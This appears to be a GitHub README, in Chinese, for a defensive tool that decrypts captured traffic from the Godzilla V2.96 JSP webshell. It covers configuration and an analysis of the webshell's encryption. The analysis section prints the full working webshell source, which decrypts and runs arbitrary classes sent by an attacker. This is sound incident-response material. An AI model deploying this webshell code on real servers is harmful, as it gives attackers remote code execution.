






# kingkong

解密哥斯拉Godzilla-V2.96 webshell管理工具流量

**目前只支持jsp类型的webshell流量解密**

# Usage

1. 获取攻击者上传到服务器的webshell样本

2. 获取wireshark之类的流量包，一般甲方有科来之类的全流量镜像设备，联系运维人员获取，这里以`test.papng`为例。

3. 导出所有http对象，放置到文件夹


4. 编辑`kingkong.py`脚本，找到`#config`这行，配置获取到的样本password、key，以及刚才的文件夹路径

5. py -2 kingkong.py


# Config

```
#config
#配置webshell的key
key = '3c6e0b8a9c15224a'
#配置webshell的password
password = 'pass'
#配置wireshark导出http对象的路径
filepath = '.'
#配置是否为jsp+base64，设置False则对JAVA_AES_RAW流量解密，设置True则对JAVA_AES_BASE64流量解密
isbase64 = False
```

# Analysis

1. 对生成的webshell格式化

```java
<%!
String xc="3c6e0b8a9c15224a"; //md5("key")[0:16]
String pass="pass"; //get参数
String md5=md5(pass+xc); //响应分隔符
class X extends ClassLoader
    {
        public X(ClassLoader z)
        {
            super(z);
        }
        public Class Q(byte[] cb)
        {
            return super.defineClass(cb, 0, cb.length);
        }
    }


    //aes解密
    public byte[] x(byte[] s,boolean m)
    {
        try{
            javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");
            c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));
            return c.doFinal(s);
            }catch (Exception e)
            {
                return null;
            }
    }
    //md5 16位大写
    public static String md5(String s) {
        String ret = null;
        try {
            java.security.MessageDigest m;
            m = java.security.MessageDigest.getInstance("MD5");
            m.update(s.getBytes(), 0, s.length());
            ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
            } catch (Exception e) {}
            return ret;
    }


    //base64编码
    public static String base64Encode(byte[] bs) throws Exception
    {
        Class base64;
        String value = null;
        try {
            base64=Class.forName("java.util.Base64");
            Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
            value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder");
            Object Encoder = base64.newInstance();
            value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value;
    }


    //base64解码
    public static byte[] base64Decode(String bs) throws Exception
    {
        Class base64;
            byte[] value = null;
        try {
                base64=Class.forName("java.util.Base64");
                Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
                value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
            }
        catch (Exception e)
            {
            try {
                    base64=Class.forName("sun.misc.BASE64Decoder");
                    Object decoder = base64.newInstance();
                    value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
                }
            catch (Exception e2)
                {


                }
            }
            return value;
    }
%>
<%
try{
        byte[] data=base64Decode(request.getParameter(pass));
        data=x(data, false);
        if (session.getAttribute("payload")==null)
        {
            session.setAttribute("payload",new X(pageContext.getClass().getClassLoader()).Q(data));
        }else
        {
                    request.setAttribute("parameters", new String(data));
                    Object f=((Class)session.getAttribute("payload")).newInstance();
                    f.equals(pageContext);
                    response.getWriter().write(md5.substring(0,16));
                    response.getWriter().write(base64Encode(x(base64Decode(f.toString()), true)));
                    response.getWriter().write(md5.substring(16));
        }
    }catch (Exception e)
        {


        }
%>
```

2. 可以看到主要有base64编码解码、aes解密、md5 hash功能
其中重点关注密钥参数：
```
String xc="3c6e0b8a9c15224a";
```

3. 该参数由生成webshell中的“密钥”参数定义，具体值为：
```
md5(xc)[0:16]
```
4. webshell客户端接收到服务端下发的指令后，进行base64解码，aes解密处理完成后，生成响应报文，其中报文结构为：
```
md5(pass+xc)[0:16]+base64编码的木马执行结果+md5(pass+xc)[16]
```